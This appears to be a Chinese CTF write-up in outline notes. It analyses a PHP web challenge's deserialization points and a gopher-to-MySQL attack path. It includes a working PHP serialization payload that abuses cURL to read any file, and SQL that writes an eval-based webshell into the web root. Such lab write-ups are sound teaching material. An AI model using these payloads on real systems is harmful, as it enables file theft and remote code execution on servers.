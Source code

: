 -
- MySQL没有密码，可以用cURL配合gopher打MySQL
	- 注意：没有回显
- # 敏感函数
- closelog: ^^任意文件写入^^
	- 无法利用
- checkUpdate
	- cURL任意文件读取
- # 反序列化 > 伪协议
- 对所有反序列化点分析如下：
- unserialize
	- __destruct
		- dao.php: conn -> close
			- 无对应函数
	- addDpt
		- dao.php: insert_dpt
			- SQL，无法利用
	- getAllDbt
		- dao.php: get_dpt_all
			- SQL，无法利用
	- checkVersion
		- 在dao中
		- utils/fun.php: checkUpdate
			- ^^任意文件读取^^
	- clearCache
		- 无法利用
-
- ## 利用
- id:: 62f1f30e-e08a-4146-bfae-5a04a4898134
  ```php
  <?php
  class dao{
  	private $config;
  	private $conn;
  	function set_config($config) {
  		$this -> config = $config;
  	}
  }
  
  class config{
  	private $mysql_username='root';
  	private $mysql_password='';
  	private $mysql_db='sds';
  	private $mysql_port=3306;
  	private $mysql_host='localhost';
  	public $cache_dir = 'cache';
  	public $update_url = 'file:///var/www/html/flag.php';
  }
  
  $c = new config();
  $d = new dao();
  $d -> set_config($c);
  echo urlencode(base64_encode(serialize($d)));
  ?>
  ```
-
- # Gopher控制MySQL
- 此处的MySQL没有密码，可以使用Gopher控制
- 使用 ((62f14125-43fc-4da5-b83f-4d56aa1d2157)) 生成
- SQL：`select '<?php eval($_POST[data]);?>' into outfile '/var/www/html/test2.php';`
-
-
- # 参见
- ((62f27746-a352-41d4-b76d-63fc1f7c9e4f))
-
-